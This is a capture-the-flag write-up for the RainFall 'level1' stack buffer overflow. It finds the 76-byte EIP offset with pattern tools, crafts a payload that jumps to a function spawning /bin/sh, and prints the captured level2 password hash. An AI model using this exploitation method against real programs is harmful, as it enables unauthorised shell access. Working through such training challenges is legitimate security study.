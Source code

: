 
level1@RainFall:~$ ./level1 <<< $(python -c 'print("a" * 76)')
Illegal instruction (core dumped)



 the first step in exploitation is to find out the offset. Metasploit aids this process by using two different tools, called pattern_create and pattern_offset.

 in order to build a working exploit, we need to figure out the exact amount of these characters. Metasploit's inbuilt tool called the pattern_create does this for us in no time. It generates patterns that can be supplied instead of A characters and, based on the value which overwrote the EIP register, we can easily figure out the exact number of bytes using its counterpart tool pattern_offset.
- Metasploit Revealed _ Secrets of the Expert Pentester (2017) pp 318


./pattern create 200
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

this output can be fed to the vulnerable application as follows:
(gdb) run <<< "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? () 

We have 0x63413563 as the address that overwrote EIP register.

Let's figure out the exact number of bytes required to overwrite the EIP with the pattern_offset tool. This tool takes two arguments; the first one is the address and the second one is the length, which was 200 as generated using pattern_create:

./pattern offset 0x63413563 200
76

The exact match is found to be at 76. Therefore, any 4 bytes after 76 characters becomes the contents of the EIP register.

- Metasploit Revealed _ Secrets of the Expert Pentester (2017) pp 318-320

lets make sure of the above finding:

(gdb) run <<< $(python -c 'print "-" * 76 + "AAAA" ')
Segmentation fault.
0x41414141 in ??

```
The cause of crash was that the application failed to process the address of the next instruction, located at 41414141. The value 41 is the hexadecimal representation of character A. What actually happened is that our input, extending through the boundary of the buffer, went on to overwrite the EIP register. Therefore, since the address of the next instruction was overwritten, the program tried to find the address of the next instruction at 41414141, which was not a valid address. Hence, it crashed.

- Metasploit Revealed _ Secrets of the Expert Pentester (2017) pp 316
```

(gdb) info func
All defined functions:
[..]
0x08048444  run

b.Ninja for run func:
```
fwrite {"Good... Wait what?\n"}
return system(/bin/sh)
```
0x08048444 little endian : \x44\x84\x04\x08

all what we need to do is make the EIP point to the addr of run function which runs the shell

python -c 'import struct; print("-" * 76 + struct.pack(">L",0x44840408))' > /tmp/payload

python -c 'print "-" * 76 + "\x44\x84\x04\x08"' > /tmp/test

level1@RainFall:~$ cat /tmp/payload -  | ./level1
Good... Wait what?
pwd
/home/user/level1
cat /home/user/level1/.pass
cat: /home/user/level1/.pass: Permission denied
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77



==
struct = Interpret bytes as packed binary data
struct.pack takes non-byte values (e.g. integers, strings, etc.) and converts them to bytes.
Format Strings
< little-endian
> big-endian


Payload: This is a piece of code that runs at the target after a successful exploitation is done. It defines the actions we want to perform on the target system.

Payloads
To understand what a payload does, let's consider a real-world example. A military unit of a certain country develops a new missile that can travel a range of 500 km at very high speed. Now, the missile body itself is of no use unless it's filled with the right kind of ammunition. Now, the military unit decided to load high explosive material within the missile so that when the missile hits the target, the explosive material within the missile explodes and causes the required damage to the enemy. So, in this case, the high explosive material within the missile is the payload. The payload can be changed based on the severity of damage that is to be caused after the missile is fired.
Similarly, payloads in the Metasploit Framework let us decide what action is to be performed on the target system once the exploit is successful. 

- Metasploit Revealed _ Secrets of the Expert Pentester -  Build your Defense against Complex Attacks-Packt Publishing (2017)

==
to detect the offset u could also use the cyclic script from the pawn tools 

https://github.com/arthaud/python3-pwntools/blob/master/pwnlib/commandline/cyclic.py

cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

run <<< "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa"

Segmentation fault.

eip value 0x61616174 

hex 0x61616174 to text is: "aaat" but since LSB it's "taaa"

using cyclic again:

cyclic -l taaa

76

r <<< $(python -c 'print ("A" * 76 + "B")')




